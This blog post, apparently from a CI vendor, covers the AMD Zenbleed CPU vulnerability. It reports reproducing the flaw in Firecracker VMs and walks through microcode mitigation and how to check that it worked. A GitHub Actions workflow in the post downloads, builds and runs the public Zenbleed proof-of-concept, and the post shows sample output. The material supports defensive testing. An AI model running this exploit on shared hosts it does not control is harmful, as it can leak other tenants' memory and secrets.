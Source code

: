 ```yaml
---
title: Update your AMD hosts now to mitigate the Zenbleed exploit
description: "Learn how to update the microcode on your AMD CPU to avoid the Zenbleed exploit."
tags:
- images
- packer
- qemu
- kvm
author_img: alex
image: "/images/2023-07-zenbleed/background.png"
date: "2023-07-31"
---
```


On 24th July 2023, [The Register covered a new exploit](https://www.theregister.com/2023/07/24/amd_zenbleed_bug/) for certain AMD CPUs based upon the Zen architecture. The exploit, dubbed Zenbleed, allows an attacker to read arbitrary physical memory locations on the host system. It works by allowing memory to be read after it's been set to be freed up aka "use-after-free". This is a serious vulnerability, and you should update your AMD hosts as soon as possible.

The Register made the claim that "any level of emulation such as QEMU" would prevent the exploit from working. This is misleading because QEMU only makes sense in production when used with hardware acceleration (KVM). We were able to run the exploit with a GitHub Action using actuated on an AMD Epyc server from Equinix Metal using Firecracker and KVM.

> "If you stick any emulation layer in between, such as Qemu, then the exploit understandably fails."

The editors at The Register have since reached out and updated their article.

Even Firecracker with its isolated guest Kernel is vulnerable, which shows how serious the bug is, it's within the hardware itself. Of course it goes without saying that this also affects containerd, Docker (and by virtue Kubernetes) which share the host Kernel.

To test this, we ran a GitHub Actions matrix build that creates many VMs running different versions of K3s. About the same time, we triggered a build which runs a Zenbleed exploit PoC written by [Tavis Ormandy](https://twitter.com/taviso), a security researcher at Google.

We found that the exploit was able to read the memory of the host system, and that the exploit was able to read the memory of other VMs running on the same host.

```yaml
name: build

on:
    pull_request:
        branches:
        - '*'
    push:
        branches:
        - master
        - main
    workflow_dispatch:

jobs:
    build:
        name: specs
        runs-on: actuated
        steps:
        - uses: actions/checkout@v1
        - name: Download exploit
          run: |
            curl -L -S -s -O https://lock.cmpxchg8b.com/files/zenbleed-v5.tar.gz
            tar -xvf zenbleed-v5.tar.gz
            sudo apt install -qy build-essential make nasm
        - name: Build exploit
          run: |
            cd zenbleed
            make
            chmod +x ./zenbleed
        - name: Run exploit for 1000 pieces of data
          run: |
            ./zenbleed/zenbleed -m 1000
```

Full details of the exploit can be found on a microsite created by the security researcher who discovered the vulnerability. The `-m 1000` flag reads 1000 pieces of memory and then exits.

[Zenbleed by Tavis Ormandy](https://lock.cmpxchg8b.com/zenbleed.html#vulnerability)

We didn't see any secrets printed out during the scan, but we did see part of a public SSH key, console output from etcd running within K3s, and instructions from containerd. So we can assume anything that was within memory within one of the other VMs on the host, or even the host itself, could be read by the exploit.

![GHA output from the zenbleed exploit](/images/2023-07-zenbleed/gha.png)
> GHA output from the zenbleed exploit

## Mitigation

AMD has already released a mitigation for the Zenbleed exploit, which requires an update to the CPU's microcode.

[Ed Vielmetti](https://www.linkedin.com/in/edwardvielmetti/), Developer Partner Manager at Equinix told us that mitigation is three-fold:

1. There is an incoming BIOS update from certain vendors that will update the microcode.
2. Updating some OSes like the Ubuntu 20.04 and 22.04 will upgrade the microcode of the CPU.
3. There is a ["chicken bit"](https://www.reddit.com/r/linux/comments/15903hr/zenbleed_a_useafterfree_in_amd_zen2_processors/) that can be enabled which prevents the exploit from working.

I probably don't need to spell this out, but a system update looks like the following, and the reboot is required:

```bash
sudo apt update -qy && \
    sudo apt upgrade -yq && \
    sudo reboot 
```

![An update to the CPU microcode is required](/images/2023-07-zenbleed/microcode.png)

For some unknown reason, both of the Equinix AMD hosts that we use internally broke after running the OS upgrade, so I had to reinstall Ubuntu 22.04 using the dashboard. If for whatever reason the machine won't come up after the microcode update, then you should reinstall the Operating System (OS) using your vendor's rescue system or out of band console, both Equinix Metal and Hetzner have an "easy button" that you can click for this. If there is still an issue after that, reach out to your vendor's support team.

New machines provisioned after this date should already contain the microcode fix or have the "chicken bit" enabled. We provisioned a new AMD Epyc server on Equinix Metal to make sure, and as expected, thanks to their hard work - it was not vulnerable.

We offer 500 USD of free credit for new Equinix Metal customers to use with actuated, and Equinix Metal have also written up their own guide on workaround here:

* [An Update On the AMD Zen 2 CPU Vulnerability](https://deploy.equinix.com/blog/an-update-on-the-amd-zen-2-cpu-vulnerability/)

## Verifying the mitigation

Since actuated VMs use Firecracker, you should run the above workflow before and after to verify the exploit was a) present and b) mitigated.

![What it looks like when the mitigation is in place](/images/2023-07-zenbleed/mitigated.png)
> Above: What it looks like when the mitigation is in place

You can also run the exploit on the host by copying and pasting the commands from the GitHub Action above.

My workstation uses a Ryzen 9 CPU, so when I ran the exploit I just saw a blocking message instead of memory regions:

```bash
$ grep "model name" /proc/cpuinfo |uniq
model name	: AMD Ryzen 9 5950X 16-Core Processor

./zenbleed -m 100
*** EMBARGOED SECURITY ISSUE --  DO NOT DISTRIBUTE! ***
ZenBleed Testcase -- taviso@google.com

NOTE: Try -h to see configuration options

Spawning 32 Threads...
Thread 0x7fd0d40e8700 running on CPU 0
Thread 0x7fd0d38e7700 running on CPU 1
...
```

You can also run the following command to print out the microcode version. This is the output from the Equinix Metal server (c3.medium) that ran an OS update on:

```bash
$ grep 'microcode' /proc/cpuinfo
microcode	: 0x830107a
```

## Wrapping up

Actuated uses [Firecracker](https://firecracker-microvm.github.io/), an open source Virtual Machine Manager (VMM) that works with Linux KVM to run isolated systems on a host. We have verified that the exploit works on Firecracker, and that the mitigation works too. So whilst VM-level isolation and an immutable filesystem is much more appropriate than a container for CI, this is an example of why we must still be vigilant and ready to respond to security vulnerabilities. 

This is an unfortunate, and serious vulnerability. It affects bare-metal, VMs and containers, which is why it's important to update your systems as soon as possible.
